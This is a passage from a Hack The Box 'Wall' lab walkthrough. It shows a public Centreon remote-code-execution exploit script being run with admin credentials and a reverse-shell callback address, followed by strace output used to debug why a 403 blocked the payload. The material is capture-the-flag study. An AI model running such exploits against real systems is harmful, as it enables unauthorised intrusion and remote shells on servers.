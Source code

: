 ```console
root@endeavour:~/htb/wall# python 47069.py http://10.10.10.157/centreon admin password1 10.10.14.75 42069
[+] Retrieving CSRF token to submit the login form
47069.py:38: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a different virtual environment, it may use a different parser and behave differently.

The code that caused this warning is on line 38 of the file 47069.py. To get rid of this warning, pass the additional argument 'features="lxml"' to the BeautifulSoup constructor.

  soup = BeautifulSoup(html_content)
[+] Login token is : e2c736a882f3341b27bf395377de8d66
[+] Logged In Sucssfully
[+] Retrieving Poller token
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a different virtual environment, it may use a different parser and behave differently.

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the additional argument 'features="lxml"' to the BeautifulSoup constructor.

  poller_soup = BeautifulSoup(poller_html)
[+] Poller token is : eb2a898f0da1c20874704d42913cafc7
[+] Injecting Done, triggering the payload
[+] Check your netcat listener !
```

Nothing showed up on our listener. Let's debug a little and see what is happening, why is it failing?

```console
root@endeavour:~/htb/wall# cat strace.txt |grep "sendto\|recvfrom"
sendto(3, "GET /centreon/index.php HTTP/1.1"..., 161, 0, NULL, 0) = 161
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 1541
sendto(3, "POST /centreon/index.php HTTP/1."..., 380, 0, NULL, 0) = 380
recvfrom(3, "HTTP/1.1 302 Found\r\nDate: Thu, 0"..., 8192, 0, NULL, NULL) = 3593
sendto(3, "GET /centreon/main.php HTTP/1.1\r"..., 206, 0, NULL, 0) = 206
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 1238
sendto(3, "GET /centreon/main.get.php?p=609"..., 218, 0, NULL, 0) = 218
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 4035
recvfrom(3, "&\23\343\214\272\360p\216O$y\323K\36\372\360`\316`\2q%~\345.;\3653AT/\222"..., 1453, 0, NULL, NULL) = 1453
sendto(3, "POST /centreon/main.get.php?p=60"..., 1001, 0, NULL, 0) = 1001
recvfrom(3, "HTTP/1.1 403 Forbidden\r\nDate: Th"..., 8192, 0, NULL, NULL) = 524
sendto(3, "POST /centreon/include/configura"..., 359, 0, NULL, 0) = 359
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 633
```

We appear to be getting 403'd right after our POST to /centreon/main.get.php?p=60

```console
root@endeavour:~/htb/wall# cat strace.txt |grep -C 5 "Forbidden"
stat("/root/_netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
poll([{fd=3, events=POLLIN}], 1, 0)     = 0 (Timeout)
sendto(3, "POST /centreon/main.get.php?p=60"..., 1001, 0, NULL, 0) = 1001
fcntl(3, F_GETFL)                       = 0x2 (flags O_RDWR)
fcntl(3, F_SETFL, O_RDWR)               = 0
recvfrom(3, "HTTP/1.1 403 Forbidden\r\nDate: Th"..., 8192, 0, NULL, NULL) = 524
write(1, "[+] Injecting Done, triggering t"..., 43) = 43
write(1, "[+] Check your netcat listener !"..., 33) = 33
stat("/root/.netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
stat("/root/_netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
poll([{fd=3, events=POLLIN}], 1, 0)     = 0 (Timeout)
```
